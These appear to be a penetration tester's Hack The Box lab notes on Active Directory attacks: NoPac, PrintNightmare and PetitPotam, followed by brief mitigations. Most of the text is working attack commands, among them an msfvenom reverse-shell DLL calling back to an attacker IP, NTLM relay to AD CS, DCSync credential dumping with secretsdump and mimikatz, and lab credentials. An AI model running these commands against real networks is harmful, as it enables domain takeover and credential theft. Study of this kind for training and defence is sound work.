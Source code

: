 ## NoPac (SamAccountName Spoofing)

|42278|42287|
|---|---|
|`42278` is a bypass vulnerability with the Security Account Manager (SAM).|`42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.|

[(nocap gitub](https://github.com/Ridter/noPac)

#### Scanning for NoPac

```bash
python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

#### Running NoPac & Getting a Shell

```shell
Sauuron@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

#### Using noPac to DCSync the Built-in Administrator Account

```shell
Sauuron@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

## PrintNightmare  ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) 
1.  we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en)
2.  needs [cube0x0](https://github.com/cube0x0/impacket) version of impacket

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

<mark style="background: #FFF3A3A6;">__note__ : for printer nightmere to work `Print System Asynchronous Protocol` and `Print System Remote Protocol` should be exposed on the target.</mark>

```shell
Sauuron@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

1. MSFVENOM create dll
2. SMBSERVER host dll
3. run msfconsole get shell

#### Creating a Share with smbserver.py

```shell
Sauuron@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

```shell
Sauuron@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/dll
```

```shell
Sauuron@htb[/htb]$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
```
#### Runnign the exploit

```shell
Sauuron@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

## PetitPotam (MS-EFSRPC) ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
___Notes__ : Found in 2021 

1. AD CS in use
2. Has IIS ???
s
sAuthentication request from the targeted (DC) to (CA) Web Enrollment page -> makes Certificate signing request (CSR)
Certificate used with **Rubeus** or **gettgtpkinig.py** to requests TGT fro the Domain Controller, Which can be used fro domain compromise via DCSync .


#### Catching Base64 Encoded Certificate for DC01

```shell
Sauuron@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

#### Requesting a TGT Using gettgtpkinit.py

```shell
Sauuron@htb[/htb]$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

#### Setting the KRB5CCNAME Environment Variable

```shell
Sauuron@htb[/htb]$ export KRB5CCNAME=dc01.ccache
```

#### Using Domain Controller TGT to DCSync

```shell
Sauuron@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

#### Requesting TGT and Performing PTT with DC01$ Machine Account (From Windows)

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt # Chane the certificate
```

#### Performing DCSync with Mimikatz

```powershell
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe
```


## PetitPotam Mitigations

First off, the patch for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) should be applied to any affected hosts. Below are some further hardening steps that can be taken:

- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use

For more reading on attacking Active Directory Certificate Services, I highly recommend the whitepaper [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) as this demonstrates attacks against AD CS that can be performed using authenticated API calls. This shows that just applying the CVE-2021-36942 patch alone to mitigate PetitPotam is not enough for most organizations running AD CS, because an attacker with standard domain user credentials can still perform attacks against AD CS in many instances. The whitepaper also details other hardening and detection steps that can be taken to harden AD CS.